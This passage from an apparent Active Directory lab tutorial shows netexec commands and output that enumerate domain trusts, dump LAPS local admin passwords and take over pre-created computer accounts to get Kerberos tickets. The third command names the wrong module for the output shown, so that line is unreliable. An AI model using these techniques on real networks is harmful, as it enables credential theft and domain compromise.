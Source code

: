 ```bash
┌──(ori㉿ori)-[~]
└─$ netexec ldap 10.250.0.20 -u 'administrator' -p 'lab123!' -M enum_trusts                         
SMB         10.250.0.20     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:yl-labs.com) (signing:True) (SMBv1:False)
LDAP        10.250.0.20     389    DC01             [+] yl-labs.com\administrator:lab123! (Pwn3d!)
ENUM_TRUSTS 10.250.0.20     389    DC01             [+] Found the following trust relationships:
ENUM_TRUSTS 10.250.0.20     389    DC01             yl-labs.com -> Bidirectional -> dev.yl-labs.com
┌──(ori㉿ori)-[~]
└─$ 
```

Alright, Alright, you're bored of enumeration. Let's move over to *LAPS* now!

The *Local Administrator Password Solution* or *LAPS* for short, is used to make sure local administrator passwords on domain joined machines get rotated on a regular basis. Each machine that is managed by *LAPS* gets a new attribute added to it: `ms-mcs-admpwd`.

This is the attribute that will hold the current local admin password in place for a certain machine.

With *LAPS*, sysadmins have the possibility to configure who is able to read the *ms-mcs-admpwd* attribute... so if we compromise an account that can - we can obtain multiple *local admin* passwords this way.

```bash
┌──(ori㉿ori)-[~]
└─$ netexec ldap 10.250.0.20 -u 'administrator' -p 'lab123!' -M laps   
SMB         10.250.0.20     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:yl-labs.com) (signing:True) (SMBv1:False)
LDAP        10.250.0.20     389    DC01             [+] yl-labs.com\administrator:lab123! (Pwn3d!)
LAPS        10.250.0.20     389    DC01             [*] Getting LAPS Passwords
LAPS        10.250.0.20     389    DC01             Computer:DB01$ User: Password: <RANDOM GENERATED PASSWORD HERE>
```

Moving on, *netexec* can also be used to identify *pre-created computer accounts*. Those accounts are especially useful when we are not in possession of already valid credentials within a domain. In a nutshell, *pre-created computer accounts* was a thing back in the *2000's*. When those accounts would get created, they wouldn't have a password by default. This would allow attackers to change the password and use the *pre-created computer account* for further enumeration. More information on the topic can be found [here](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts)

```bash
┌──(ori㉿ori)-[~]
└─$ netexec ldap 10.250.0.20 -u 'administrator' -p 'lab123!' -M enum_trusts     

SMB         10.250.0.20     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:yl-labs.com) (signing:True) (SMBv1:False)
LDAP        10.250.0.20     389    DC01             [+] yl-labs.com\administrator:lab123! (Pwn3d!)
PRE2K 10.250.0.20     389    DC01                    Pre-created computer account: TEST$
PRE2K 10.250.0.20     389    DC01                    [+] Found 1 pre-created computer accounts.
PRE2K 10.250.0.20     389    DC01                    [+] Successfully obtained TGT for test@yl-labs.com
PRE2K 10.250.0.20     389    DC01                    [+] Successfully obtained TGT for 1 pre-created computer accounts. Save to /home/ori/.nxc/modules/pre2k/ccache
```

